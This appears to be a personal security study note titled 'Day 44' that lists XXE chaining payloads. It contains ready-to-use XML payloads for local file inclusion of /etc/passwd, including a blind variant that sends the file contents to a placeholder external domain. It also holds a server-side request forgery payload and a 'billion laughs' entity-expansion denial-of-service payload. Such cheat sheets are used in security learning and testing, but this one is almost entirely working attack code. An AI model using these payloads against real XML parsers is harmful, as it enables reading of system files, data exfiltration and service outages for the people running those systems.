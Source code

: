 Daily Notes : Day 44
XXE CHAINING PAYLOADS 

LFI:
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#any)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>

Or

 <?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.<domain>.com/?%xxe;">]><foo>&blind;</foo>

SSRF :

<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.<domain>.com/text.txt">]><foo>&xxe;</foo>

DOS :

<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#DATA)>
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<tag>&lol9;</tag>